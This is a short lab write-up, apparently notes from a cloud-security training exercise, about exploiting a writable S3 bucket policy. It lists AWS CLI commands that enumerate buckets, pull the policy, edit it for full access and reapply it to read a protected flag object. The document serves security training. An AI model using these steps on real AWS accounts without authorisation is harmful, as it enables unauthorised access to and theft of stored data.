 Bucket policies are used to restrict/allow access to buckets and have to be crafted very carefully. A misconfigured bucket policy can allow attackers to steal sensitive data and use the S3 bucket in other attacks.

In this lab, the bucket policy denies all users from reading a specific object. But there exists a misconfiguration in the bucket policy which can be leveraged to modify the bucket policy and read the object

==================================================================

Configure AWS CLI with access credentials --> `aws configure`
Listing s3 buckets --> `aws s3api list-buckets`
![[Pasted image 20210826191826.png]]
Checking bucket objects --> `aws s3api list-objects --bucket s3-writable-policy-157363981057`
Insufficient permissions to download the flag --> `aws s3 cp s3://s3-writable-policy-157363981057/flag .`

Getting bucket policy --> `aws s3api get-bucket-policy --bucket s3-writable-policy-157363981057 --output text | python -m json.tool > policy.json`
![[Pasted image 20210826192409.png]]

Modifying bucket policy for full access --> `vim policy.json`
![[Pasted image 20210826192517.png]]

Updating new policy on bucket -->  `aws s3api put-bucket-policy --bucket s3-writable-policy-157363981057 --policy file://policy.json`
Policy successfully applied